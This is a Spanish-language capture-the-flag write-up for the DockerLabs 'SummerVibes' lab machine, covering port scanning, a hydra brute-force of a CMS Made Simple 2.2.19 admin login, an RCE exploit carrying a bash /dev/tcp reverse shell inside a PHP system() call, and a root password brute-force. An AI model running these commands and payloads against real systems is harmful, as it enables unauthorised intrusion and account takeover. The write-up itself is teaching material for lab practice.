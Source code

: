 # Máquina SummerVibes

Dificultad -> Difícil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Sabemos la IP de la maquina víctima y ahora lo que vamos a usar es nmap para realizar un escaneo general de los puertos que tiene abiertos.
 
Podemos usar diferentes opciones, estas son algunas para que sea rápido.
sudo nmap -p- -sS -sC -sV --min-rate 5000 -vvv -n -Pn 172.17.0.2
sudo nmap -p- -sS --open --min-rate 5000 -vvv -n 172.17.0.2
sudo nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG TodosLosPuertos
sudo nmap -p- -sS -sC -sV --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oX Maquina-summervibes
 

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d1:19:f1:fa:48:16:af:8a:4a:89:2d:78:89:e9:2d:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG36eG906mrEH+PhkX+d0kmBBpxW4ECArmbLYCP/Q3nWm464LsDcafYElms/gd6ol5iFMM3XLdWyEQiyy/MfZDM=
|   256 b8:b7:2e:64:3e:ee:c3:2e:2e:be:99:07:4e:02:4f:16 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL/OHCYyijgZMo6u1RkpTLxjluOVfmcqxgB3eL+iMUpp
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Encontramos abiertos el puerto 22 ssh y el puerto 80 http que es un servidor Apache 2.4.52.
Abrimos el navegador y nos encontramos con la pagina por defecto de Apache.

 
Buscamos vulnerabilidades para Apache 2.4.52.

 

Revisamos el código de la página de inicio y encontramos un mensaje oculto donde dice que “cms made simple está instalado en un directorio, y para acceder cmsms”

 

Consulto con TARS sobre herramientas de fuzzing web.

 

Otras opciones para fuzzing web es gobuster, le consulto a TARS.
 

Tengo instalado OWASP ZAP que es más visual y tienes muchas más opciones, la abro para analizar lo que podemos encontrar.

 

  	 


 


Analizando con ZAP  http://172.17.0.2 no encontramos nada.

Ahora vamos a ver que es lo que podemos encontrar en http://172.17.0.2/cmsms 

 
 

Parece que es un gestor de contenido, “This site is powered by CMS Made Simple version 2.2.19”.

La última versión según la página web oficial es la 2.2.20.

 

Abrimos ZAP y conseguimos obtener algo más de información de algunas carpeta como: /uploads , /modules ,  /tmp  y /admin que es la más interesante porque es el panel de acceso a los usuarios , Login.

Probamos con los usuario y contraseña “admin”,”admin” , “User name or password incorrect”

 



## Explotación

Ahora buscamos información sobre este CMS 2.2.19 y si existe alguna vulnerabilidad.

 

Encontramos varias vulnerabilidades para esta versión de CMS, pero para poder usarlas tenemos que estar identificados en el panel de usuarios como administrador.

Ahora tenemos que buscar la forma de entrar en el panel como admin, una opción podría ser usar mediante un ataque de fuerza bruta con hydra y http-post-form.

Tenemos algo de información gracias al ZAP , que ya ha capturado una petición de login.

POST http://172.17.0.2/cmsms/admin/login.php

 

Y tenemos también la respuesta.

<div class="message error">
                            User name or password incorrect
</div>

 

Le preguntamos a TARS si nos puede ayudar un poco.

 

Con ayuda de TARS creamos el comando y le preguntamos si está bien.

 

hydra -l admin -P /usr/share/wordlists/rockyou.txt  -f "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"

 
 

[80][http-post-form] host: 172.17.0.2   login: admin   password: chocolate

Hemos encontrado la contraseña para el usuario admin.
Ahora entramos en el panel y comprobamos si funcionan los exploits para este CMS Made Simple version 2.2.19 encontrados antes.

 

Ya estamos dentro del panel de administración, podemos mirar también algunas alertas.

 

Ahora vamos a probar los exploits encontrados, seguimos las instrucciones de cada uno. 
Exploit Title: CMS Made Simple Version: 2.2.19 – SSTI 
https://packetstormsecurity.com/files/177244/CMS-Made-Simple-2.2.19-Server-Side-Template-Injection.html
 
 
Exploit Title: CMS Made Simple Version: 2.2.19 – SSTI https://github.com/capture0x/CMSMadeSimple2
 

 

Podemos ver que este exploit está funcionando.

 

Ahora podemos probar con el siguiente exploit que ejecuta código remoto, y así podemos generar una reverse Shell desde el navegador y abrir una terminal directamente. 
CMS Made Simple Version 2.2.19 - Remote Code Execution Exploit
CMS Made Simple 2.2.19 Remote Code Execution ≈ Packet Storm (packetstormsecurity.com)
 
 

CMS Made Simple Version 2.2.19 - Remote Code Execution Exploit https://github.com/capture0x/CMSMadeSimple

 
 

 


 
Funciona el exploit, ahora tenemos que buscar un código para introducir una reverse Shell, podemos usar la herramienta online https://www.revshells.com/ 

 

Nos genera el código para escuchar con netcat o cualquier otra opción, en una terminal

sudo nc -lvnp 443

 

Y el código para el exploit con el reverse Shell, que se tiene que modificar algo, porque directamente no lo admite tal como lo genera.

sh -i >& /dev/tcp/172.17.0.1/443 0>&1

 

En vez de usar “sh” , vamos a usar “bash”

 

Para poder leer y escribir directamente, de la otra forma no se puede.

bash -i >& /dev/tcp/172.17.0.1/443 0>&1

Ahora solo queda unir este código con el del exploit:

<?php echo system('id'); ?>

Cambiamos id por el código reverse Shell, e incluimos: bash -c “código reverse shell”

Resultado:

<?php echo system('bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1" '); ?>

TARS nos lo puede explicar un poco por encima:
 

Probamos a ver qué pasa. Creamos “rvshell” en Extensiones – User Defined Tags.

 

Con Netcat a la escucha pulsamos en Run, si no funciona a la primera, probamos otra vez.
 

Y obtenemos la conexión.
 

Estamos dentro de la maquina víctima, pero no podemos hacer gran cosa.

 

Ahora lo ultimo que quedaría es escalar privilegios, y conseguir acceder como “root” mediante fuerza bruta.




## Escalada de privilegios

Para hacer un ataque de fuerza bruta al usuario root , necesitamos:

1-	 Un diccionario, para esta ocasión usare el que tiene Kali Linux en /usr/share/wordlists/rockyou.txt

2-	 Y un script para automatizar la comprobación de cada contraseña.

Para este caso usare este script: Maalfer/Sudo_BruteForce: Script hecho en bash para realizar un ataque de fuerza bruta a un usuario de un sistema Linux. (github.com)
Enlace RAW https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh

 

Descargamos el diccionario y el script en la maquina victima para después ejecutar el ataque.

Cambiamos al directorio /tmp

Usaremos: wget https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh

 

Luego en otra terminal creamos un Servidor HHTP simple para compartir por el puerto 80 la carpeta donde está el diccionario.

En una nueva terminal local, accedemos al directorio /usr/share/wordlists/
cd /usr/share/wordlists/
sudo python3 -m http.server 80









 

 

Y descargamos el diccionario: wget http://172.17.0.1/rockyou.txt

 

Ahora ya podemos usar el script de fuerza bruta.

bash Linux-Su-Force.sh root rockyou.txt

 

Parece ser que la contraseña “chocolate”, se ha reutilizado, podríamos haber probado a usar la misma contraseña, y nos habríamos ahorrado el proceso de fuerza bruta.

Ahora ya podemos escalar a root.

su
whoami

----------------
root
Hemos alcanzado el nivel de privilegios máximos en el sistema.

Ahora tratamos la tty para ver la Shell mejor.	script /dev/null -c bash


TUTORIALES

Github – WriteUps	-	CiberGonxz/DockerLabs-WriteUps (github.com)

Youtube		-	https://www.youtube.com/@CiberGon

Lista Reproducción Youtube:	https://youtube.com/playlist?list=PLy2SbJGtrfJlEswGyzcKAU2e_Pqh--WXq&si=6e8gvOE1Ivq9q9-p

